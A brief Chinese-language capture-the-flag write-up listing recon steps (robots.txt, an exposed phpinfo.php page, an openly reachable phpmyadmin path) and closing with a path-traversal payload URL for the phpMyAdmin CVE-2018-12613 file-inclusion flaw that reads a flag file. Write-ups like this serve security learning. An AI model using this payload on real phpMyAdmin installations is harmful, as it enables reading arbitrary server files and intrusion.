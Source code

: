 # 知识点：

# 1.phpinfo泄露

# 2. phpmyadmin任意访问

# 3. phpMyadmin(CVE-2018-12613)后台任意文件包含漏洞



1.一开始提示有一个数据库，叫我们寻找

尝试 /phpMyAdmin没有发现，实在坑



2. 扫描后台发现存在robots.txt

然后发现存在phpinfo.php页面



3.后面发现数据库为phpmyadmin全部小写



4. phpmyadminCVE-2018-12613存在任意文件包含漏洞



5. payload:

```javascript
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

